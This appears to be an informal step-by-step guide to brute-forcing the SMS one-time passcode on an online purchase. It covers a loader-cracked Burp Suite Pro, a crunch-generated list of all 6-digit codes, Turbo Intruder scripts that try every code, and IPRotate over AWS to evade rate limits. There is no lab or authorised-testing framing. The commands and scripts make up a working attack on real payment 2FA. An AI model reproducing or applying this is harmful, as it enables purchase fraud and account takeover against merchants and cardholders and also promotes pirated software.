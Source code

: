 https://addons.mozilla.org/firefox/downloads/file/3633665/burp_proxy_toggler_lite-23.8.xpi
:Get the firefox burpsuite extension for firefox (if you have firefox)
:toggle it on

Open Burp Suite Pro
:If you downloaded the same version as me this is the code I use to open it
:Open Terminal in folder where Burp Suite is and type

"/usr/lib/jvm/java-21-openjdk-amd64/bin/java" \
"--add-opens=java.desktop/javax.swing=ALL-UNNAMED" \
"--add-opens=java.base/java.lang=ALL-UNNAMED" \
"--add-opens=java.base/jdk.internal.org.objectweb.asm=ALL-UNNAMED" \
"--add-opens=java.base/jdk.internal.org.objectweb.asm.tree=ALL-UNNAMED" \
"--add-opens=java.base/jdk.internal.org.objectweb.asm.Opcodes=ALL-UNNAMED" \
"-javaagent:burploader.jar" "-noverify" \
"-Djava.util.logging.config.file=logging.properties" \
"-jar" "/home/hekticxox/Desktop/BurpeSuite/burpsuite_pro_v2024.5.jar" \
> burp_log.txt 2>&1

:Once Burpe Suite opens go to or open your Firefox Browser
:Navigate to http://burp
:Click the top right certificate button to download certificate
:Navigate to the settings on your firefox and search certificate in searchbar
:Open certificate settings
:In the authorities section click add certificate and add the certificate you
just downloaded
:check both boxes and click add

Download the Jython Stand alone .jar file
:in your terminal type

wget https://repo1.maven.org/maven2/org/python/jython-standalone/2.7.4/jython-standalone-2.7.4.jar

In Burpe Suite navigate to your extensions page
:Add the location of the jython standalone you just downloaded in to the python
section of the extension settings

Once thats done you might need to close and reload Burp Suite using the code above

You should now be able to go to the BApp part in the extensions page on Burp
:Search Turbo Intruder and install
:Search IPRotate and install

Create your OTP 6 digit word list
:in your terminal type

crunch 6 6 0123456789 -o 6digit-combos.txt

:this will save your OTP word list to the current directory
:take note of the file location it should be something like
/home/yourusername/Desktop/6digit-combos.txt (or wherever your terminal is open to)

Go to the purchase you want to make
:if/when the 2fa/otp pops up click receive code by sms
:when you get to the page enter in a random 6 digit code (BUT DON'T PRESS ENTER YET)
:go to Burp Suite and click the Proxy button
:then click intercept and change it to on
:then go back to the OTP page and click enter
:the request should show up on your Burp Suite
:the page should have the 6 digit (wrong) OTP you entered
if it doesn't just keep pressing foward till you have the page with the code you entered
:once you found the request page right click it on Burp Suite
:scroll down to extensions and send to Turbo Intruder

:at this point I will turn off intercept as to not timeout the server

:open the turbo intruder that opened up for settings

:there should be two sections when turbo intruder pops up
one will have the request at the top of the page you sent
and the bottom will have a place to enter the python code

:in the top section find the 6 digit code you entered

:highlight the 6 digits and replace with %s

:in the bottom python scripting part you can use the drop down box and click
the only burp option

:in the code it will have a location for a word list and you will want
to replace the word list with your own word list that contains the
1,000,000 entries for each 6 digit possibility

:the code should look something like this

import random

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           engine=Engine.BURP
                           )

    # Read the wordlist file
    with open('/home/hekticxox/Desktop/BurpeSuite/6digit-combos.txt', 'r') as file:
        combos = [line.rstrip() for line in file]

    # Shuffle the list to randomize the order (I've added this to pick random numbers but only one time)
    random.shuffle(combos)

    # Queue the requests, ensuring each number is used only once
    for combo in combos:
        engine.queue(target.req, combo)

def handleResponse(req, interesting):
    if interesting:
        table.add(req)
        callbacks.addToSiteMap(req.getBurpRequest())
        
:If your computer is having trouble running the code you can replace with this one

import random
import time

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,  # Number of concurrent connections
                           requestsPerConnection=1,  # Number of requests per connection
                           engine=Engine.BURP
                           )

    # Read the wordlist file
    with open('/home/hekticxox/Desktop/BurpeSuite/6digit-combos.txt', 'r') as file:
        combos = [line.rstrip() for line in file]

    # Shuffle the list to randomize the order
    random.shuffle(combos)

    # Queue the requests with a delay between each request
    for combo in combos:
        engine.queue(target.req, combo)
        time.sleep(1)  # Sleep for 1 second between each request, adjust this as needed
        #you can adjust the line above to decrease the time between requests just remember
        #the slower it goes the longer its going to take.
        #you can also use fractions of a second so if you want to run it with half a second
        #or a quarter of a second between requests you can change 1 to 0.5 or 0.25 ect

def handleResponse(req, interesting):
    if interesting:
        table.add(req)
        callbacks.addToSiteMap(req.getBurpRequest())
        
:Now before you click attack on turbo intruder click the IPRotate extension. You will need
to enter your AWS credentials so you can make multiple requests in different locations,
this will help reduce the chance of getting rate limited and temporarly suspended.
:for the information you need to enter the AWS key and AWS secret key, you can use mine for now

:and for the host you can copy the host from the request page that turbo intruder is using and
paste it in to the IPRotate host box where it says example.com

:Click enable

:Once it displays enabled go back to your tubro intruder page and click attack

:Your results should now start displaying on the turbo intruder page
:the results should all say 400 or 403 or something similar
:when you get the right result it should say 200 and that will be the
correct payload for the digit code. Open that page up and copy the 6 digit
OTP
:Stop the attack when the OTP has been found and you should be able to enter
it in to the OTP box and click enter

(The last part of this write up is kinf of where I am at now, my computer keeps crashing
due to the number of requests sent as it overloads things on my end. But maybe your computer
can handle it. Let me know how it goes or if you need any help.)

